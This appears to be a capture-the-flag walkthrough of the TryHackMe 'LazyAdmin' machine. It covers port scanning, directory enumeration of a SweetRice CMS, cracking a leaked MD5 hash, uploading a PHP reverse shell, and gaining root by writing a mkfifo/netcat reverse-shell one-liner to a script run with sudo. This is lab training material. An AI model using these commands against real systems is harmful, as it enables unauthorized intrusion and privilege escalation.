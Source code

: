 ## THM CTF - LazyAdmin

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   lazy.thm
```
Now we can proceed with an Nmap scan.
```
sudo nmap -sS -T4 bounty.thm -p-
```
We discovered two open ports, and we can list the services they provide.
```
sudo nmap -sS -T4 lazy.thm -p22,80 -sV -sC
```
We proceed analysing the ```HTTP``` service with a ```Gobuster``` enumeration.
```
gobuster dir -u http://lazy.thm -w /usr/share/wordlists/dirb/common.txt -x php,txt,json,log,db,html
```
Discovering a ```content``` folder.
```
gobuster dir -u http://lazy.thm/content -w /usr/share/wordlists/dirb/common.txt -x php,txt,json,log,db,html
```
This time we are able to discover more folders, however we identify the ```CMS``` installed as ```SweetRice```.
```
searchsploit sweetrice
```
There are some exploit, but we need at least to identify the CMS version.

After some time spent navigating the site, we discovered many interesting information.
```
http://lazy.thm/content/inc/lastest.txt
```
gives us the versione of SweetRice.
```
http://lazy.thm/content/as/
```
This is the login page.
```
http://lazy.thm/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
```
This is a potentially useful mysql backup.
```
searchsploit sweetrice
```
This version is exceptionally vulnerable (file upload), but we leave this analysis for later, let's explore the downloaded sql file.

We managed to discover some credentials:
```
manager
*************************
```
using hash-identifier we identify this as an MD5 hash.
```
cat ************************* > hash.txt
hash-identifier hash.txt
```
Then we use ```HashCat``` to brute force the password.
```
hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```
Discovering the password required to access the ```admin login page```.
```
************
```
After logging in, exploring the ```admin dashboard```, we find the ```media center``` section where we are able to upload something.

We can try with a php web shell.
```
cp /usr/share/webshells/php/php-reverse-shell.php shell.php5
```
We need to change the ```IP address``` in the file, and now we can upload and open it on the site.

However, we need to open the ```listening port``` to accept connections from the attack machine.
```
nc -nvlp 1234
```
And we're in! We find the ```first flag``` in the ```itguy``` main folder.

We proceed enumerating the main folder.
```
mysql_login.txt -> rice:randompass
backup.pl ->  #! /usr/bin/perl system("sh", "/etc/copy.sh");
```
We cannot edit the file ```backup.pl``` but we can edit the file ```/etc/copy.sh```, and change the IP contained in it.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [attack_IP] 5554 >/tmp/f" > /etc/copy.sh
```
On the attacker machine we can set ```Netcat``` to listen on ```port 5554```.
```
nc -nlvp 5554
```
On the target machine
```
sudo perl /home/itguy/backup.pl
```
We've obtained a reverse shell with ```root``` access.
```
/bin/bash -i
```
We can now easily navigate to the root folder to find the ```second flag```.
